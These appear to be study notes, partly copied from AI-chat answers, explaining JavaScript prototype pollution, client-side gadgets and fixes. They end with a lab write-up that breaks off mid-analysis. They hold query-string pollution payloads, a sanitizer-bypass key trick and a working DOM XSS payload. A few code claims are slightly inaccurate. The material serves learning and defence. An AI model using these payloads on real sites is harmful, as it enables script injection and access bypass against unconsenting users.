








# Prototype pollution

## 1) What is the JavaScript prototype (simple)

* In JavaScript almost every object inherits from another object called its **prototype**.
* If you access `obj.foo` and `obj` doesn’t have `foo`, JS looks up the chain and uses `obj.__proto__.foo` (or `Object.prototype.foo`) if present.
* That means if you add a property to a prototype, every object that inherits from that prototype may suddenly “see” that property.

## 2) What is prototype pollution (simple)

* **Prototype pollution** happens when an attacker can **inject properties into an object's prototype** (for example `Object.prototype`) using attacker-controlled input.
* Once polluted, these properties are inherited by many objects and can change how the application behaves.

## 3) Why that can be dangerous (plain)

* Many programs use configuration objects, defaults, or library options. If those objects don’t have a property set directly, they fall back to a prototype property.
* If an attacker sets a prototype property that the app later uses without sanitizing it, the attacker can influence execution — e.g., change a URL, set a flag, or control what code runs.
* Chaining this with other weaknesses (like unsanitized DOM insertion, dynamic script loading, or server-side use of polluted properties) can produce real impacts: client-side XSS, bypassed access controls, or worse on server-side (in rare cases remote code execution).

## 4) How pollution typically happens (3 common sources)

1. **Query strings / URL parameters**

   * Example URL: `https://site/?__proto__[isAdmin]=true`
   * If the application parses the query and merges it into an object without filtering `__proto__`, it can assign `Object.prototype.isAdmin = "true"`.
2. **JSON input**

   * An attacker posts `{"__proto__": {"evil": "value"}}` and the server or client merges that JSON into an object unsafely.
3. **Object merge/assign functions**

   * Vulnerable merging code like `deepMerge(target, userObj)` that doesn’t sanitize keys will copy `__proto__` into a prototype.

## 5) Minimal vulnerable example (run locally to observe)

Vulnerable merge function (conceptual):

```js
function naiveMerge(target, source) {
  for (let key in source) {
    if (typeof source[key] === 'object') {
      target[key] = target[key] || {};
      naiveMerge(target[key], source[key]);
    } else {
      target[key] = source[key];
    }
  }
}
let config = {};
naiveMerge(config, JSON.parse('{"__proto__":{"isAdmin":true}}'));
console.log({}.isAdmin); // true  <- prototype was polluted
```

What happened: the code assigned into `target.__proto__.isAdmin` instead of `target.__proto__` as a literal property — resulting in `{}.isAdmin` being true for every object.

## 6) How that becomes an exploit (gadgets & sinks — simple)

* **Gadget:** Any property the app reads later and uses in a sensitive operation (for example `config.transport_url` that gets appended to `script.src`) is a gadget.
* **Sink:** A place where attacker-controlled data is used in a dangerous way (e.g., `document.createElement('script')` + `script.src = transport_url`) — if the polluted property reaches a sink, you can cause script loading or DOM XSS.
* Chain: pollution → app uses polluted property (gadget) → sink executes dangerous action → exploit succeeds.

## 7) Safe, non-destructive PoC idea (for labs or local code)

* Create a small page or Node script that uses a `config` object for script URL selection.
* Show how setting `__proto__` via a crafted input changes which script would be loaded.
* Important: **only** run this on code you control (your local machine or a deliberately vulnerable lab like Web Security Academy).

## 8) How to detect prototype pollution (testing checklist)

* Look for endpoints that accept JSON objects or complex query parameters and then merge them into server/client-side objects.
* In a lab: try injecting `__proto__[test]=1` in a query string or JSON and observe global objects (`{}.test`) or app behavior.
* Check library versions: some old versions of `lodash`, `merge`, or other deep-merge utilities had known issues — search CVEs / advisories.
* Use static analysis or dependency scanners to find use of unsafe merge functions.

## 9) Example safe checks you can run in browser console (local/lab only)

* Visit app in a dev environment. In console run:

```js
// craft an object and merge it the same way the app does (if you can mimic it)
let malicious = JSON.parse('{"__proto__":{"pwned":"yes"}}');
// call the same merge routine the app uses (if testing code you control)
naiveMerge({}, malicious);
console.log({}.pwned); // if "yes", prototype was polluted
```

* Or append a query like `?__proto__[pwned]=1` to a vulnerable demo and inspect global objects after the app parses the query.

## 10) Fixes & mitigations (practical)

On the developer side:

* **Reject or ignore dangerous keys**: When merging user input, explicitly block keys like `__proto__`, `constructor`, and `prototype`.
* **Use safe merge libraries** that sanitize keys or use proven functions that disallow prototype pollution.
* **Avoid merging untrusted objects into global/shared objects** — instead create new objects and only copy whitelisted properties.
* **Use `Object.create(null)`** for pure maps (no inherited properties) if you need a plain dictionary without prototype inheritance.
* **Set objects’ prototype intentionally**: `Object.setPrototypeOf(obj, null)` if appropriate, or create objects with `Object.create(null)` so they don’t inherit from `Object.prototype`.
* **Harden sinks**: don’t use untrusted values in sensitive DOM operations, script URLs, `eval`, or calls that run system commands.

Patch example: sanitize keys before merge:

```js
function safeMerge(target, source) {
  for (let key in source) {
    if (key === '__proto__' || key === 'constructor' || key === 'prototype') continue;
    // proceed with safe assignment/recursion
  }
}
```

## 11) Real-world defense priorities (for teams)

* Keep dependencies up to date (patch libs like lodash/merge when advisories appear).
* Add tests that attempt to inject `__proto__` into inputs and check that nothing on global prototypes changed.
* Malware/attack surface minimization: limit what configuration values can affect DOM/script injection, and use CSP (Content Security Policy) to limit script sources.

## 12) Short summary (one-sentence)

Prototype pollution is when an attacker can add properties to JavaScript prototypes (like `Object.prototype`) via crafted input; those injected properties can then be inherited by many objects and — if the application uses those properties unsafely — lead to severe issues such as DOM XSS or other attacks. Fix by sanitizing keys, using safe merge patterns, and avoiding use of inherited properties for sensitive behavior.

---


# JavaScript objects, prototypes, inheritance, and modifying prototypes


## 1️⃣ What is a JavaScript object?

* A **JavaScript object** is like a **collection of key\:value pairs**, where keys are names and values can be data or functions.
* Example:

```js
const user = {
  username: "wiener",
  userId: 1234,
  isAdmin: false
};
```

* You can access the properties using **dot notation** or **bracket notation**:

```js
console.log(user.username);    // "wiener"
console.log(user['userId']);   // 1234
```

* Properties can also be functions, which are called **methods**:

```js
const user = {
  username: "wiener",
  greet: function() {
    console.log("Hello, " + this.username);
  }
};

user.greet();   // "Hello, wiener"
```

> `this` refers to the object itself (`user` here).

---

## 2️⃣ What is a prototype in JavaScript?

* **Every object** in JavaScript has a link to another object called its **prototype**.
* The prototype **provides inherited properties and methods** that your object can use.
* Example with built-in objects:

```js
let myObject = {};
console.log(Object.getPrototypeOf(myObject));  // Object.prototype

let myString = "hello";
console.log(Object.getPrototypeOf(myString));  // String.prototype

let myArray = [];
console.log(Object.getPrototypeOf(myArray));   // Array.prototype
```

* Built-in prototypes give objects useful methods:

  * Strings have `toLowerCase()`, `trim()`
  * Arrays have `push()`, `pop()`, `map()`

---

## 3️⃣ How object inheritance works

* When you try to access a property of an object:

  1. JS checks if the property exists **on the object itself**.
  2. If not, JS checks the **prototype**.
  3. This continues up the **prototype chain** until it reaches `Object.prototype`, which is the topmost prototype.

```js
let myObject = {};
console.log(myObject.toString());  // Inherited from Object.prototype
```

* Even though `myObject` doesn’t have `toString` directly, it **inherits it** from `Object.prototype`.

---

## 4️⃣ Accessing the prototype

* Every object has a `__proto__` property pointing to its prototype:

```js
let str = "hello";
console.log(str.__proto__);            // String.prototype
console.log(str.__proto__.__proto__);  // Object.prototype
console.log(str.__proto__.__proto__.__proto__);  // null
```

* You can **read or even change** the prototype using `__proto__` (not recommended for production):

```js
let obj = {};
obj.__proto__.customMethod = function() { return "Hi"; };

console.log(obj.customMethod());   // "Hi"
```

---

## 5️⃣ Modifying built-in prototypes

* JavaScript allows you to **add or change methods** in built-in prototypes.
* Example: adding a custom method to `String.prototype`:

```js
String.prototype.removeWhitespace = function() {
  return this.trim();  // removes leading and trailing spaces
};

let searchTerm = "  example ";
console.log(searchTerm.removeWhitespace());  // "example"
```

* After this, **all strings** can use `removeWhitespace()` because they inherit it from `String.prototype`.

> ⚠️ Modifying built-in prototypes is **usually discouraged** because it can conflict with future JS updates or other libraries.

---

## 6️⃣ Why prototypes are important

1. **Memory efficiency** – Methods defined on the prototype are shared by all objects, not duplicated for each instance.
2. **Inheritance** – You can reuse properties and methods instead of redefining them for every object.
3. **Extensibility** – You can add new functionality to all objects of a type by modifying the prototype (careful with built-ins).

---

### ✅ Prototype chain example

```js
let user = { username: "alice" };

console.log(user.username);      // "alice"   → own property
console.log(user.toString());    // "[object Object]"  → inherited from Object.prototype

// Adding a new method to Object.prototype
Object.prototype.sayHello = function() {
  return "Hello!";
};

console.log(user.sayHello());    // "Hello!" → inherited from Object.prototype
```

* Here, `user` doesn’t have `sayHello`, but it **inherits it** from `Object.prototype`.

---

### 7️⃣ Quick summary in plain words

| Concept             | Explanation                                                                         |
| ------------------- | ----------------------------------------------------------------------------------- |
| Object              | A collection of key\:value pairs (properties).                                      |
| Method              | A property that is a function.                                                      |
| Prototype           | Another object linked to the current object; provides inherited properties/methods. |
| Prototype chain     | Series of objects checked for a property if it doesn’t exist on the object itself.  |
| `__proto__`         | Accessor to the object’s prototype.                                                 |
| Modifying prototype | Add/override methods that all objects of that type can use (use with caution).      |

---

Nice — I’ll explain **client-side prototype pollution** in plain language, step-by-step, with simple examples and clear fixes. I’ll cover:

* what prototype pollution is (client-side)
* why it’s dangerous (how it can lead to DOM XSS)
* common attack vectors (`__proto__`, `constructor.prototype`, weird sanitizers)
* how an attacker finds sources and gadgets (manual + practical steps)
* small JavaScript examples (vulnerable code + exploit pattern)
* how to detect automatically (brief mention of tools)
* how to fix and mitigate
* ethical note

---

# What is prototype pollution? (simple)

JavaScript objects inherit properties from other objects. The special object `Object.prototype` sits at the top of most objects’ lookup chain. If you can add or change properties on `Object.prototype`, those properties appear on *every object* that inherits from it — that’s **prototype pollution**.

On the **client side** (in the browser), this means attacker-controlled data (URL, fragment, JSON, form data) can sometimes change `Object.prototype`, altering behavior of scripts running in users’ browsers.

---

## Why is it dangerous?

Because when `Object.prototype` gets a new property (or a changed one), *all* objects may now have that property. That can lead to:

* application logic change (feature bypass)
* arbitrary values flowing into sensitive functions (sinks) such as `innerHTML`, `eval`, `setAttribute`, `document.write`, `new Function(...)`, or DOM APIs — causing **DOM XSS**
* breaking security checks (e.g., `if (obj.isAdmin)` suddenly true)
* hijacking functions if getters are defined (side effects on access)

---

# Two main attack patterns (sources) attackers use

1. **`__proto__` property**
   Many libraries merge user objects into other objects. If the merge accepts keys like `__proto__`, an attacker can send `?__proto__[evil]=value` or `?__proto__.evil=value` and it will set `Object.prototype.evil = "value"`.

   Example URL payload:

   ```
   https://site.example/?__proto__[polluted]=1
   ```

   In the console `Object.prototype.polluted === 1`.

2. **Using `constructor.prototype`**
   Not all protection looks for `__proto__`. Attackers can reach `Object.prototype` through `.constructor.prototype`. For example structure like:

   ```
   data = { something: { constructor: { prototype: { evil: 'x' } } } }
   ```

   If that nested structure is merged into an application object without deep sanitization, `Object.prototype.evil` may be set.

---

## How attackers find *sources* (manual, simple steps)

(Only for responsible testing on systems you own or are authorized to test.)

1. **Try injection points**: query string, fragment (`#`), JSON POST bodies, fields that the app parses and merges.

   * Example tries: `?__proto__[x]=y` and `?__proto__.x=y`.

2. **Check in browser console**:

   ```js
   Object.prototype.x  // if "y", pollution succeeded
   ```

3. **Try variations**: bracket vs dot notation; nested forms; `constructor.prototype` paths.

4. **If single-pass sanitizers strip `__proto__`, try bypasses** (they may fail if the sanitization is recursive but often they’re sloppy):

   * insert `__pro__proto__to__` style tricks that when cleaned once become `__proto__`.
   * supply encoded forms (URL-encoded) if sanitizer misses them.

---

## How attackers find *gadgets* (places that use polluted properties)

A **gadget** is code that reads a property of an object and uses it in a dangerous way (a sink). Example: code that does `element.innerHTML = obj.someProp` — if `someProp` resolves to a polluted property value, it becomes a sink for DOM XSS.

Manual steps to find gadgets:

1. Inject a getter that logs a stack trace when the property is read. While debugging, add:

   ```js
   Object.defineProperty(Object.prototype, 'yourProperty', {
     get() {
       console.trace('accessed yourProperty');
       return 'polluted_value';
     },
     configurable: true
   });
   ```
2. Load the page / interact with UI. If you see the stack trace, you know code read that property. Use the stack to locate the exact code path and check whether that value is passed to `innerHTML`, `eval`, `setAttribute`, etc.

(Automated tools like Burp’s DOM Invader can do this scanning for you and generate PoCs faster.)

---

## Short vulnerable example & how pollution leads to DOM XSS

Vulnerable merging example:

```js
// naive merge: copies all keys from userObj to target
function shallowMerge(target, userObj) {
  for (const k in userObj) {
    target[k] = userObj[k];
  }
  return target;
}
```

If `userObj` comes from URL parsing and contains `__proto__`, it can pollute:

Attack (conceptual):

```js
// attacker crafts userObj equivalent to { __proto__: { evil: '' } }
shallowMerge(appConfig, userObj);

// Later in app:
someElement.innerHTML = appConfig.evil; // attacker-controlled HTML -> DOM XSS
```

More realistic example using querystring parsing libraries that turn `?__proto__.evil=...` into objects and then merge.

---

## Bypassing naive sanitization

If the site strips keys that *equal* `__proto__` but doesn’t sanitize deeply, attackers can craft keys like:

```
__pro__proto__to__.gadget = payload
```

A single-pass replace of `__proto__` strips once but leaves a valid `__proto__.gadget` behind. Or they may encode parts, or use `constructor.prototype` paths, which sanitizers often don’t check.

---

## How to detect prototype pollution

* **Manual**: try `?__proto__[pwn]=1` etc and inspect `Object.prototype`.
* **Debugging trick**: add a getter to `Object.prototype` to see accesses (in an authorized test environment).
* **Automated**: tools like Burp DOM Invader (as your pasted material mentions) can automatically scan for sources and gadgets and produce PoCs.
* **Code review**: look for unsafe merges like `Object.assign(target, user)`, shallow/deep merge utilities that don’t guard against prototype keys, or `_.merge` usage with untrusted input.

---

## How to fix / mitigate (practical rules)

1. **Never merge untrusted objects directly into application/global objects.**
   Avoid `Object.assign({}, userObj)` then using that object in app state without sanitizing keys.

2. **Reject or strip dangerous keys deeply and carefully.**
   If you must sanitize, perform recursive checks and explicitly disallow keys like:

   * `__proto__`
   * `constructor`
   * `prototype`
     But be careful — attackers find ways around naive string checks. Deep check object keys at *all* levels.

3. **Use safe object creation for application configuration/state**
   Create objects that do **not** inherit from `Object.prototype`:

   ```js
   const safe = Object.create(null);
   // safe has no prototype chain so polluted properties won't be found via prototype lookup
   ```

   This is effective for objects where you control the map of keys and do lookups only on that object (not via prototype chain).

4. **Use `hasOwnProperty` checks before trusting properties**
   When you read properties on objects that might have inherited values, prefer:

   ```js
   if (Object.prototype.hasOwnProperty.call(obj, 'someKey')) {
     // safe: property is an own property, not inherited
   }
   ```

   Note: this doesn’t prevent `obj.someKey` being set by pollution if the property is added as an own property — but it prevents inherited properties from being used unintentionally.

5. **Avoid merging user-controlled objects into objects that are used as prototypes**
   Keep user data isolated — don’t merge user objects into global config objects that are reused.

6. **Use well-maintained libraries for deep merge that explicitly protect against prototype pollution**
   Some libraries have options to prevent special keys. Prefer vetted solutions and keep them up to date.

7. **Freeze or seal important prototypes at startup (careful)**
   You can make `Object.prototype` non-configurable in some contexts, but this is global and risky; better to isolate and sanitize instead.

8. **For sinks (DOM insertion, eval, setAttribute)** — never insert untrusted strings directly. Use safe APIs or sanitizers, e.g., `.textContent` (instead of `.innerHTML`) when you mean text.

---

## Quick checklist for developers

* Do you merge JSON/objects from the URL or other client input? If yes → review merge code.
* Do you use `Object.assign`, `_.merge`, or similar on untrusted input? → verify the library's pollution protections.
* Are you setting DOM content from object properties? → ensure values are sanitized and own properties are used.
* Use `Object.create(null)` for maps of untrusted keys.
* Add unit tests that try to pollute prototypes and ensure your app resists it.

---

## Example “safe merge” pattern (simple)

```js
function safeAssign(target, source) {
  for (const key of Object.keys(source)) { // keys() returns own properties only
    if (key === '__proto__' || key === 'constructor' || key === 'prototype') continue;
    target[key] = source[key];
  }
  return target;
}
```

This is a small improvement — but remember: attackers may nest those keys, so you need a recursive, well-audited implementation if deep merge is required.

---

# Tools & automation

* **Burp Suite’s DOM Invader** (mentioned in your text) — automates detection of client-side prototype pollution sources/gadgets and can generate PoCs.
* Static analyzers and dependency scanners help find known vulnerable libraries.
* Unit tests that include prototype pollution attempts.

---

## Ethical and legal note

Always test prototype pollution only on systems you own or where you have explicit permission to test. Exploiting vulnerabilities on others’ systems without authorization is illegal.

---

## Short summary (TL;DR)

* Prototype pollution = attacker adds/changes properties on `Object.prototype`.
* Client-side pollution can lead to changing app logic or DOM XSS if polluted properties reach dangerous sinks.
* Common vectors: `__proto__`, `constructor.prototype`, malformed keys that bypass sanitizers.
* Detection: try injecting `__proto__` and inspect `Object.prototype`; use tools like DOM Invader.
* Fixes: never blindly merge untrusted objects, deep sanitize (carefully), use `Object.create(null)`, check `hasOwnProperty`, sanitize sinks, update libraries.

---


# Prototype Pollution → DOM XSS 
## 1. Find a prototype pollution source

1. In the browser, try sending input that modifies `Object.prototype` using query string syntax:

   ```
   /?__proto__[foo]=bar
   ```
2. Open the browser DevTools and go to the **Console** tab.
3. Enter:

   ```js
   Object.prototype
   ```
4. Inspect the returned object.

   * You should now see a property `foo` with the value `bar`.
   * This confirms a prototype pollution source exists in the application.

---

## 2. Identify a gadget

1. In the DevTools, go to the **Sources** tab.
2. Review the JavaScript files loaded by the site to locate any **DOM XSS sinks**.
3. Example: `searchLogger.js`

   * If the `config` object contains a `transport_url` property, it is used to dynamically create a `<script>` element.
   * Currently, `config.transport_url` is undefined.
   * This is a **gadget**, because a polluted property could control the `src` of the `<script>` element.

---

## 3. Craft a proof-of-concept (in lab)

1. Using the prototype pollution source, inject a harmless test property via the query string:

   ```
   /?__proto__[transport_url]=foo
   ```
2. Open the DevTools **Elements** tab and inspect the page’s HTML.

   * A `<script>` element should now appear with `src="foo"`.
3. In a lab environment, you could replace `foo` with a **non-executable marker** (e.g., `data:,test`) to confirm the gadget behavior safely.

   * This shows that the polluted property flows from `Object.prototype` → `config` → DOM element.

---

## 4. How it works (conceptual understanding)

* **Prototype pollution** allows attacker-controlled properties to appear on all objects.
* **Gadget** code reads a property from `config` and uses it directly to modify the DOM (e.g., `script.src = config.transport_url`).
* When combined, this allows an attacker to inject arbitrary DOM content if unsafe values are used (DOM XSS).

---

## 5. Safe remediation

1. **Sanitize input objects**

   * Remove `__proto__`, `prototype`, and `constructor` keys before merging into config objects.
2. **Avoid unsafe merges**

   * Don’t `Object.assign` or `_.merge` user input into global/config objects. Use whitelists and copy only allowed keys.
3. **Prototype-free maps**

   * Store untrusted keys in `Object.create(null)` objects.
4. **Validate DOM sources**

   * Restrict values used in element attributes (`src`, `href`, `innerHTML`) to safe schemes/hosts.
5. **Content Security Policy (CSP)**

   * Limit script execution to trusted sources.
6. **Automated tests**

   * Test that `__proto__` / `constructor` / `prototype` inputs cannot modify `Object.prototype`.

---

This version:

* Keeps **all the key steps**: pollution source, gadget identification, and PoC flow.
* Explains them **safely**, using non-executable markers instead of real XSS payloads.
* Includes conceptual and remediation guidance for learning purposes.

```
[User Input / Query String]
         |
         v
[Parsed Object / Input Processing]
         |
         v
[Prototype Pollution Check]
  (Does input include __proto__/prototype/constructor?)
         |
         v
[Object.prototype polluted?] ---> No ---> End (Safe)
         |
        Yes
         |
         v
[Config Object / Application Code]
  - Merges user input into config
  - Reads properties (e.g., transport_url)
         |
         v
[Gadget Detected?]
  - Property used to create DOM elements
  - e.g., <script src=config.transport_url>
         |
         v
[DOM Element Created]
  - In lab: use non-executable marker (data:,test)
  - Shows property flows from Object.prototype → DOM
         |
         v
[Effect / Observation]
  - Property value appears in DOM
  - Confirms prototype-pollution → gadget flow
         |
         v
[Mitigation / Remediation]
  - Sanitize input (remove __proto__/prototype/constructor)
  - Avoid unsafe merges
  - Use prototype-free maps for untrusted keys
  - Validate DOM sources
  - Apply CSP
  - Automated tests to detect pollution attempts
```

# Lab write-up — **Client-side prototype pollution via flawed sanitization**


## Summary (TL;DR)

The application attempts to sanitize dangerous query keys (like `__proto__`, `constructor.prototype`, etc.) but applies that filtering non-recursively. By inserting fragments that survive the sanitizer and are concatenated/reinterpreted by the client, it is possible to reconstruct `__proto__` on `Object.prototype`. This prototype pollution is then used to set `config.transport_url`, which `searchLogger.js` later uses to dynamically inject a `<script src="...">`, allowing arbitrary JavaScript execution (XSS). Proof-of-concept payload:

```
/?__pro__proto__to__[transport_url]=data:,alert(1);
```

---

## Vulnerability type

* **Client-side Prototype Pollution** leading to **DOM-based XSS**
* Root cause: flawed, non-recursive sanitization of object keys in client JavaScript.

---

## Full step-by-step discovery & exploitation

### 1. Initial reconnaissance

* Loaded the target page and inspected URL query parsing behavior.
* Tested simple prototype pollution attempts in the query string to see if `Object.prototype` can be modified:

  * `/?__proto__.foo=bar`
  * `/?__proto__[foo]=bar`
  * `/?constructor.prototype.foo=bar`
* Observed via DevTools → Console → `Object.prototype` that these direct attempts did **not** add properties — the site applies some sanitization.

### 2. Analyzing client JS

* Opened DevTools → Sources and examined loaded scripts.
* Noticed:

  * `deparamSanitized.js` performs query parameter de-serialization.
  * `searchLoggerFiltered.js` defines `sanitizeKey()` that blocks dangerous keys (for example `__proto__`, `constructor`, `prototype`, etc.) via a blacklist.
  * `deparamSanitized.js` uses `sanitizeKey()` **only on the top-level key** or in a non-recursive way (it does not sanitize reconstructed keys after concatenation).
* Observed `searchLogger.js` had a codepath where, if `config.transport_url` is present and truthy, it dynamically appends a `<script>` element to the DOM with `src = config.transport_url`. This is the **gadget** we can abuse if we control `config.transport_url`.

### 3. Bypassing the sanitizer (finding the prototype pollution source)

* The sanitizer strips exact blocked tokens, but because it is not recursive, fragments that later form the dangerous keys after sanitization can bypass the blacklist.
